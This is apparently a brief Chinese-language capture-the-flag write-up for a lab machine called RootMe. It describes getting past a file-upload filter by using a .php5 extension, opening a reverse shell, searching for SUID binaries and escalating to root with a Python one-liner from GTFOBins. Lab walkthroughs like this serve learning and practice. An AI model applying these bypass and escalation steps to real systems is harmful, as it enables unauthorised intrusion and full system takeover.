 # RootMe

信息收集:
```
/panel
/Website.zip
/uploads
```

`/panel` 可上传文件，上传 PHP 被拦截。经测试，发现是后端验证。
但是换了个后缀名 `php5` 就绕过了。后面看源码发现只是限制 `php` 不能上传。

连接 reverse shell，在 `/var/www/user.txt` 发现 flag

尝试 `sudo -l`，但是要密码。
寻找 SUID 文件。
```
find / -perm -4000 -type f 2>/dev/null
```

发现 `python`，上 `gtfobins`
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
提权成功

`/root/root.txt`

